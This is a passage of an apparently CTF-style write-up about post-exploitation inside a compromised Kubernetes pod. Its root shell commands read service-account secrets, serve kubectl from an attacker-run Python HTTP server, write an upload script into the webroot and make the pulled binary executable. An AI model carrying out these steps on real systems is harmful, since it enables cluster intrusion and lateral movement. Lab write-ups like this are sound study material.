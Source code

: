 ```bash      
root@php-deploy-6d998f68b9-fvtcg:/run/secrets/kubernetes.io/serviceaccount# cat namespace
```

<br>
<p align="center">With no access to microk8s, curl, or wget, I decided to uploade <strong>kubectl</strong>kubectl<br> in the target VM.<br>I spent considerable effort uploading itonly to realize later it wasn’t necessary.<br><br>Set up an HTTP server</p>

```bash
:~/FrankandHerbyTryAgain# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

<br>
<p align="center">Downloaded <strong>kubectl</strong> to traget VM.<br>Crafted a File Upload Script <code>hi.php</code>.<br>Followed the guidance available  <a href="https://www.w3schools.com/php/php_file_upload.asp">here</a></p>p


```bash
:~/FrankandHerbyTryAgain# curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   138  100   138    0     0   2760      0 --:--:-- --:--:-- --:--:--  2760
100 57.7M  100 57.7M    0     0   156M      0 --:--:-- --:--:-- --:--:--  156M
```

<br>
<p align="center">Created <strong>hi.php</strong> aiming to upload <strong>kubectl</strong> to the target.</p>

```bash
root@php-deploy-6d998f68b9-fvtcg:/var/www/html# echo '<?php $target_dir = "uploads/";$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);$uploadOk = 1;$imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));if(isset($_POST["submit"])) {  $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);  if($check !== false) { echo "File is an image - " . $check["mime"] . ".";  $uploadOk = 1;  } else {  echo "File is not an image.";  $uploadOk = 0;  }}?>' > hi.php
```

```bash
root@php-deploy-6d998f68b9-fvtcg:/var/www/html# exit
```

<br>
<p align="center">Navigated to <strong>xx.xxx.xx.xx:30679/hi.php</strong><br><strong>kubectl</strong> was successfully uploaded.</p>

```bash
:~/FrankandHerbyTryAgain# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
xx.xxx.xx.xx - - [05/Oct/2025 xx:xx:xx] "GET /kubectl HTTP/1.1." 200 -
```

```bash
root@php-deploy-6d998f68b9-fvtcg:/var/www/html# chmod +x kubectl
chmod +x kubectl
```
